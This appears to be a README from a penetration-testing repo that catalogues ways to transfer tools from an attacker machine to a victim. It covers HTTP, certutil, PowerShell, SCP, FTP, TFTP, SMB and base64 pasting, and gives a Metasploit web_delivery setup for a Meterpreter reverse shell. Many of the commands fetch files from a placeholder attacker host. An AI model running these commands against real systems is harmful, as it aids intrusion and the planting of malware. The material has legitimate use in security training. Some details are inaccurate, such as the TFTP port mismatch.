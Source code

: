# tool-transfer

In the beginning of my journey I was struggling with getting my scripts and programs from one machine to another. In this repo my objective is to find every way you can transfer your tools!

### HTTP

Set up an HTTP server on your attacker machine and download the files from the victim machine. The hosted file must be in the same directory where you execute this command.

python3 -m http.server $port$

python -m SimpleHTTPServer $port$

From the victim machine you can use any browser to navigate to the IP address and download the files or the following commands:

### CMD

wget http://$attacker_address$/$filename$

certutil -urlcache -split -f "http://$attacker_ip$:$port$/$filename$" $output-filename$

### Powershell

powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATTACKER_IP$:$port$/$filename$','$output-filename$')"

curl http://$attacker_address$/$filename$ -O $output-filename$
or
Invoke-WebRequest http://$attacker_address$/$filename$ -O $output-filename$

powershell.exe -c (Start-BitsTransfer -Source "http://$attacker_ip$/$filename$ -Destination C:\temp\$filename$")

### SSH

If you have an SSH session you can use SCP command to download files. To download/upload directories use the -r (recursive) switch

Downloading files from the host:

scp username@from_host:file.txt /local/directory/

Uploading files to the host:

scp file.txt username@to_host:/remote/directory/

### FTP

Set up an FTP server on your attacker machine:

python -m pyftpdlib 21 (you might install pyftpdlib with apt-get install python-pyftpdlib first)

ftp to the attacker machine and use the GET command to download files.

ftp $attacker_ip_ address$

To upload files use the -w switch to enable anonymous write.

### TFTP

Set a tftp server on your attacker machine using the following command:

atftpd --daemon --port 69 root-dir

where atftpd is the tftp server we want to execute, we execute are gonna execute it as a service (daemon) on port 89 and root-directory will be the directory where the files are which we want to transfer.

To download the hosted files use:

tftp -i $attacker_ip$ GET file

To upload files use the same command with the PUT argument.

### SMB

You can host files via SMB, use the smbserver.py script which is part of the impacket project with the following command

smbserver.py $share_name$ $shared_directory$

e.g smbserver.py share /usr/share/transfer

If you want to share the current directory use the pwd command.

smbserver.py $share_name$ pwd

To download the files use the following command:

copy \\$attacker_ip$\$share_name$\$file_name$ $out_filename$

e.g: copy \\192.168.0.122\share\nc.exe nc.exe

### Metasploit

You can use the web_delivery method to transfer reverse shells. Type the following commands inside metasploit.


use multi/script/web delivery
set payload to windows/meterpreter/reverse_tcp
set target PSH (powershell)
set lhost eth0

localhost and srvhost are the same

if you are connected to the target network via VPN use the tun0 interface instead of eth0. srvhost is the ip address serving the malicious script, lhost is where the call-back will happen from the reverse-shell. In this example I used a Meterpreter shell but you choose whatever shell type you like.

### Base64


Another cool trick is to encode your script, using base64, then copy-paste it between sessions.

python -c 'print(__import__("base64").b64encode(open("file_name", "rb").read()))'
echo "base64_encoded_script" > output.txt
base64 -d output.txt > out_filename
chmod +x out_filename
./out_filename

So we encoded the binary, copy-pasted the base64 string into a text file using echo, then decrypted it with the base64 utility using the -d switch (decrypt) to a single file. We made it executable with the chmod +x command than executed it.

It works well on smaller scripts, copy pasting the string of a complex program could crash a shell.




